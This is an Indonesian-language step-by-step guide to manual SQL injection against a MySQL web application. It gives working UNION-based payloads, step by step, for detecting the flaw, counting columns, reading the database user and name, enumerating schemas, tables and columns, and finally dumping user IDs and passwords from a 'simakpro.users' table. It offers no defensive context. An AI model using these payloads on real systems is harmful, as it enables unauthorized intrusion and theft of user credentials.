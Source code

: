 *Langkah-langkah melakukan SQL Injection secara manual*
1. Mencari tahu apakah inputan memiliki vuln untuk dilakukan sql injection dengan memasukan karakter ' atau " 
2. Apabila terdapat vuln, maka masukan script Cth: ' ORDER By 2# <- Script ini berguna untuk mengetahui jumlah tables dalam database.
3. Selanjutnya jika sudah diketahui banyaknya tables, makan jalankan script berikut, Cth:
' UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10#

4. Selanjutnya, untuk mengetahui user dan nama database yang digunakan menggunakan script berikut, Cth:
' UNION ALL SELECT 1,2,3,user(),5,6,7,database(),9,10#

5. Selanjutnya untuk mengetahui list database yang tersimpan pada MYSQL, menggunakan script berikut, Cth:
' UNION ALL SELECT 1,2,3,schema_name,5,6,7,8,9,10 FROM information_schema.schemata #

6. Selanjutnya, untuk mendapatkan list tables dari database tertentu, menggunakan script berikut, Cth:
' UNION SELECT 1,2,3,table_name,5,6,7,8,9,10 FROM information_schema.tables WHERE table_schema = 'simakpro' #

7. Selanjutnya, untuk mendapatkan informasi yang lebih spesifik kolom-kolom dari sebuah table, menggunakan script berikut, Cth:
' UNION SELECT 1,2,3,column_name,5,6,7,column_type,9,10 FROM information_schema.columns WHERE table_schema = 'simakpro'  AND table_name = 'users' #

8. Terakhir, untuk mendapatkan record data dalam table yang dipilih, menggunakan script berikut, Cth:
' UNION SELECT 1,2,3,CONCAT(usrid,' - ',passwd,' - ',level, ' - ', type_user),5,6,7,8,9,10 FROM simakpro.users #
